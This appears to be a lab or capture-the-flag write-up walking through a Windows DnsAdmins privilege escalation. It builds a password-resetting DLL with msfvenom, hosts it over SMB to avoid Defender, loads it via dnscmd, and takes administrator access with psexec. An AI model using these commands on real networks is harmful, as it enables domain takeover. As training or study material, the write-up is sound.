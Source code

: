 Being a member of the `DnsAdmins` group allows us to use the `dnscmd.exe` to specify a plugin DLL that should be loaded by the DNS service. Create a DLL using `msfvenom`, that changes the administrator password.

```bash
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

Transferring this to the box would likely trigger Windows Defender, so we can use Impacket's `smbserver.py` to start an SMB server and host the dll remotely.

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

The dnscmd utility can be used to set the remote DLL path into the Windows Registry:

```bash
cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.13\share\da.dll
```

Next, we need to restart the DNS service in order to load our malicious DLL. DnsAdmins aren't able to restart the DNS service by default, but in seems likely that they would be given permissions to do this, and in this domain this is indeed the case.

```bash
sc.exe stop dns
sc.exe start dns
```

The service restarted successfully, and we saw a connection attempt on our SMB server. We can now attempt to login as administrator using psexec.py with our password.

```bash
impacket-psexec megabank.local/administrator@10.10.10.169                 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
```

Next, we can get the root flag:

```bash
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is D1AC-5AF6

 Directory of C:\Users\Administrator\Desktop

12/04/2019  06:18 AM    <DIR>          .
12/04/2019  06:18 AM    <DIR>          ..
06/22/2024  04:41 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,456,924,160 bytes free
```
